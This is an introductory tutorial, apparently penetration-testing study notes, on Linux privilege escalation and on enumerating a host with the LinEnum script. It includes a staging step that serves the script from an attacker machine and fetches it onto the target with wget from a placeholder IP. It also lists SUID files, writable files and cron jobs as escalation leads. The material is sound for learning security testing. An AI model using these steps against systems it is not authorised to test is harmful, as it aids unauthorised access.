 # Common Linux Privilege Escalation

## Understanding Privesc

At it's core privilege escalation usually involves going from having lower permissions on a system to having higher permissions on the system. Usually this is done through the exploitation of a vulnerability, design flaw or configuration oversight in an operating system or application to gain unauthorized access to resources that are usually restricted from the users.

Rarely when doing a penetration test do you immediately gain access to a root account. Escalating privileges is necessary in order to do many things on the system including:

* Resetting Passwords
* Bypassing access controls to compromise protected data
* Edit software configurations
* Enable persistence, so you can access the machine again later.
* Change privilege of users
* Any other administrator/super user commands as they are needed

## Direction of Privilege Escalation

There are two main privilege escalation variants:

* Horizontal privilege escalation - Taking over another user account with the same privileges as the current account. This can be useful to access their files and while searching for other ways to elevate access.
* Vertical privilege escalation  - This is where higher privileges are obtained from an existing account that has already been compromised. Usually this involves gaining administrator/root privileges.

## Enumeration

LinEnum is a bash script that performs commands related to privilege escalation. It is important to understand what commands LinEnum executes so that you can manually enumerate if in a situation that you cannot use scripts.

LinEnum can be downloaded [here](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh "Github"). Personally I have it stored in my `/opt` directory.

---

In order to get the script on the target machine, navigate to the directory that LinEnum is stored in. From here start a Python web server using `python3 -m http.server 8000`. Then on the target machine you can use `wget <YOUR_IP>:<PORT>/LinEnum.sh`. Once the file is on the target machine it can be marked as executable with `chmod +x <FILENAME>`. Alternatively with sufficient permissions, copying the entire script on the attacker machine and pasting into a new file on the target using a terminal text editor also works. Simply save the file with a `.sh` extension and mark it as executable.

LinEnum is ran the same way as other bash scripts, `./LinEnum.sh`.

The LinEnum output is broken down into different sections, these are the main sections that will be focused on:
* Kernel - Kernel information is shown here.
* Can we read/write sensitive files? - The world-writeable files are shown below. Perhaps find a file that is usually closed off with permissions allowing a user to write to it.
* SUID Files - The output for SUID files is shown here. SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. It allows the file to run with permissions of whoever the owner is. If this is root, it runs with root permissions.
* Crontab Contents - The scheduled cron jobs are shown below. Cron is used to schedule commands at a specific time. Sometimes these jobs can be manipulated in order to escalate privileges.
